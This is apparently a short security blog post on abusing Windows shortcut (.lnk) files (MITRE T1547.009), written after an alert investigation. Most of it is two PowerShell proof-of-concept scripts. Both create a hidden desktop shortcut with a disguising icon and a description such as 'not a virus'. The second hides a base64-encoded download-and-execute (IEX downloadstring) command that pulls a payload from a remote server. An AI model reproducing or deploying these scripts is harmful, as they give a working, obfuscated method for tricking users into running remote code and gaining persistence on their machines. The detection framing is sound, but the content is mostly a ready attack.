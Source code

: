 ```yaml
---
layout: post
title: Weaponzing Shortcut Modification
subtitle: Exploring T1547.009 
cover-img: /assets/img/honk.png
thumbnail-img: /assets/img/shortcut.png
share-img: /assets/img/shortcut.png
tags: [PoC, shortcut]
---
```


The other day I was investigating an alert for what was suspected to be a malicious lnk file. I had not really seen many of these in the wild, so I decided to take a bit of extra time to see what an true positive might look like. I found some useful PoC resources to help me create my own attack.

The original Powershell script that I modified can be seen below. I pulled it directly from the link to [v3ded's blog](https://v3ded.github.io/).

~~~
$path                      = "$([Environment]::GetFolderPath('Desktop'))\FakeText.lnk"
$wshell                    = New-Object -ComObject Wscript.Shell
$shortcut                  = $wshell.CreateShortcut($path)

$shortcut.IconLocation     = "C:\Windows\System32\shell32.dll,70"

$shortcut.TargetPath       = "cmd.exe"
$shortcut.Arguments        = "/c calc.exe"
$shortcut.WorkingDirectory = "C:"
$shortcut.HotKey           = "CTRL+C"
$shortcut.Description      = "Nope, not malicious"

$shortcut.WindowStyle      = 7
                           # 7 = Minimized window
                           # 3 = Maximized window
                           # 1 = Normal    window
$shortcut.Save()

(Get-Item $path).Attributes += 'Hidden' # Optional if we want to make the link invisible (prevent user clicks)
~~~

Branching from this, I decided to add an IEX statement to download a payload hosted on a remote server.

~~~
$path = "$([Environment]::GetFolderPath('Desktop'))\RealText.lnk"
$wshell = New-Object -ComObject Wscript.Shell
$shortcut = $wshell.CreateShortcut($path)
$cmd = [System.Text.Encoding]::ascii.GetString([System.Convert]::FromBase64String('SUVYICgobmV3LW9iamVjdCBuZXQud2ViY2xpZW50KS5kb3dubG9hZHN0cmluZygnaHR0cDovLzAuMC4wLjA6ODAwMC9maWxlLnR4dCcpKQ=='))
$shortcut.IconLocation = "C:\Windows\System32\shell32.dll,70"
$shortcut.TargetPath = "powershell.exe"
$shortcut.Arguments = " -c $cmd"
$shortcut.WorkingDirectory = "C:"
$shortcut.HotKey = "CTRL+C"
$shortcut.Description = "I'm a dolphin, not a virus"
$shortcut.WindowStyle      = 7
$shortcut.Save()
(Get-Item $path).Attributes += 'Hidden'
~~~

| Type | Link |
| :------ | :--- |
| PoC | [https://v3ded.github.io/redteam/abusing-lnk-features-for-initial-access-and-persistence](https://v3ded.github.io/redteam/abusing-lnk-features-for-initial-access-and-persistence) |
| PoC | [https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/phishing-ole-+-lnk](https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/phishing-ole-+-lnk) |

